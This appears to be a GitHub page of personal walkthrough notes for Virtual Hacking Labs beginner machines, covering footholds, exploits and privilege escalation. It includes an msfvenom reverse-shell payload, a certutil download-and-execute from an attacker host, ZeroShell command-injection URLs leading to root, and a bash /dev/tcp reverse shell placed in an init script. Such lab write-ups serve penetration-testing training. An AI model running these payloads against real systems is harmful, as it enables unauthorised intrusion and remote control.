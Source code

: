 ## Virtual Hacking Labs

### Beginner
#### 10.11.1.36 (Steven)
```bash
Foothold -> Found Wing FTP Server and Login with admin:admin  
Exploit -> RCE

msfvenom -p windows/shell_reverse_tcp LHOST=172.16.1.1 LPORT=4444 -f exe > shell-x86.exe

os.execute('cmd.exe /c certutil.exe -urlcache -split -f http://172.16.1.1:8080/shell.exe C:\Windows\Temp\shell.exe & C:\Windows\Temp\shell.exe')

Escalate -> Don't need
```
#### 10.11.1.48 (Android)
```bash
Foothold -> Found Port 5555 (adb)
Exploit -> Connect with ADB Tool

./adb connect 10.11.1.48:5555
./adb shell

Escalate -> Just su to root
```
#### 10.11.1.60 (Zero)
```bash
Foothold -> Found ZeroShell

Exploit -> RCE
https://10.11.1.60/cgi-bin/kerbynet?Section=NoAuthREQ&Action=x509view&User=Admin&x509type='%0Auname -a%0A'

Linux zeroshell 4.14.29-ZS #4 SMP Mon Mar 26 23:04:36 CEST 2018 i686 GenuineIntel unknown GNU/Linux Linux zeroshell 4.14.29-ZS #4 SMP Mon Mar 26 23:04:36 CEST 2018 i686 GenuineIntel unknown GNU/Linux

Escalate -> sudo by tar
https://10.11.1.60/cgi-bin/kerbynet?Section=NoAuthREQ&Action=x509view&User=Admin&x509type='%0A/etc/sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=id%0A'

uid=0(root) gid=0(root) groups=0(root) uid=0(root) gid=0(root) groups=0(root) 
```
Reference  
 -> https://www.exploit-db.com/exploits/49096  
 -> https://www.tarlogic.com/advisories/zeroshell-rce-root.txt

#### 10.11.1.74 (Mantis)
```bash
Foothold -> Read robots.txt and Found http://10.11.1.74/mantisbt-2.3.0
Exploit1 -> Try to Use RCE (Unauthenticated) it's work but it's a rabbit hole.
Exploit2 -> Use Reset Administrator Password to Exploit
User -> Investigate The Page and Found SSH credential and Use it.
Root -> sudo -l and Found "(ALL : ALL) ALL" Then sudo su
```

#### 10.11.1.83 (John)
```bash
Foothold -> Found Target is Windows XP and Open 445
Exploit -> MS08-067 and MS17-010
```

#### 10.11.1.95 (James)
```bash
Foothold -> Found Apache James Server 2.3.2
Exploit -> Use Public Exploit from https://www.exploit-db.com/exploits/50347

sudo -l
(root) NOPASSWD: /sbin/reboot

Found Can Edit /etc/init.d/james

Escalate -> Edit /etc/init.d/james

---/etc/init.d/james---
#!/bin/bash
sudo JAVA_HOME=/usr/lib/jvm/default-java /home/james/shell.sh
-----------------------

Escalate -> Create shell.sh
---shell.sh---
#!/bin/bash
/bin/bash -i >& /dev/tcp/172.16.1.2/80 0>&1
--------------

Escalate -> sudo /sbin/reboot
```

#### 10.11.1.109 (AS45)
```bash

```
